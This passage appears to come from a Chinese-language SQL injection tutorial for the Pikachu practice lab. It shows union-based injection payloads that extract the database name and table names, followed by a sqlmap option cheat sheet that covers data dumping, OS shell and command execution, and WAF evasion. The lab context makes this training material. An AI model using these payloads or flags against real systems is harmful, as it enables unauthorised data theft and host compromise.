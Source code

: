 #### 1.2获取数据库名称

```
-1' union all select 1,database();#
```

![image-20211227163037992](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxsh3570tzj30c806eq38.jpg)

#### 1.3查看表

```
-1' union select 1,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)；#
```

![image-20211227163906842](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxshbyy03bj309i07s3yl.jpg)

### 2、sqlmap使用

```
-u 指定目标URL (可以是http协议也可以是https协议)
-d 连接数据库
--dbs 列出所有的数据库
--current-db 列出当前数据库
--tables 列出当前的表
--columns 列出当前的列
-D 选择使用哪个数据库
-T 选择使用哪个表
-C 选择使用哪个列
--dump 获取字段中的数据
--batch 自动选择yes
--smart 启发式快速判断，节约浪费时间
--forms 尝试使用post注入
-r 加载文件中的HTTP请求（本地保存的请求包txt文件）
-l 加载文件中的HTTP请求（本地保存的请求包日志文件）
-g 自动获取Google搜索的前一百个结果，对有GET参数的URL测试
-o 开启所有默认性能优化
--tamper 调用脚本进行注入
-v 指定sqlmap的回显等级
--delay 设置多久访问一次
--os-shell 获取主机shell，一般不太好用，因为没权限
--os-cmd 执行命令
-m 批量操作
-c 指定配置文件，会按照该配置文件执行动作
-data data指定的数据会当做post数据提交
-timeout 设定超时时间
-level 设置注入探测等级
--risk 风险等级
--identify-waf 检测防火墙类型
--param-del="分割符" 设置参数的分割符
--skip-urlencode 不进行url编码
--keep-alive 设置持久连接，加快探测速度
--null-connection 检索没有body响应的内容，多用于盲注
--thread 最大为10 设置多线程

```
